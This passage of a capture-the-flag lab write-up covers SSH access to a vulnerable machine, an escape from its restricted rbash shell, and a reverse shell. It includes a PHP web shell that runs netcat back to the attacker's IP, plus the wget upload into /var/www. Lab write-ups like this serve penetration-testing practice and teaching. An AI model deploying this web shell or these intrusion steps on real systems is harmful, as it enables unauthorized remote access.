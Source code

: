 ## SSH
So we now have some credentials (andrea / SayNoToPentests) and we'll give a shot at using them to SSH into the target machine.

<img src="{{ site.url }}/images/ctf/6days_lab_2.png"/>

Success!

But we can't seem to execute commands....

```
andrea@cypm:~$ ifconfig
andrea@cypm:~$ hostname
andrea@cypm:~$ uname -a
andrea@cypm:~$ pwd
andrea@cypm:~$ cd
rbash: cd: restricted
andrea@cypm:~$ 
```

No commands seem to be working and upon using 'cd' it becomes obvious we are in an rbash shell.

<b>It seems we may be able to use wget so will try to get a reverse shell uploaded</b>
```
andrea@cypm:~$ wget
wget: missing URL
Usage: wget [OPTION]... [URL]...
Try `wget --help' for more options.
```

<b>Created php file to get a shell</b>
```
root@sengen-kali:~/vulnhub/6day# cat shell.php
<?php echo shell_exec("/bin/nc -e /bin/sh 192.168.56.101 443");?>
```

<b>Used wget to get it to the victim machine and put it in /var/www</b>
```
andrea@cypm:~$ wget http://192.168.56.101/shell.php
--2017-07-27 22:25:32--  http://192.168.56.101/shell.php
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [text/html]
Saving to: `shell.php'

    [ <=>                                                                        ] 0           --.-K/s   in 0s      

2017-07-27 22:25:32 (0.00 B/s) - `shell.php' saved [0/0]

andrea@cypm:~$ cp shell.php /var/www
```

<b>Listened on netcat for the connection and called the shell.php page</b>
<img src="{{ site.url }}/images/ctf/6days_lab_3.png"/>
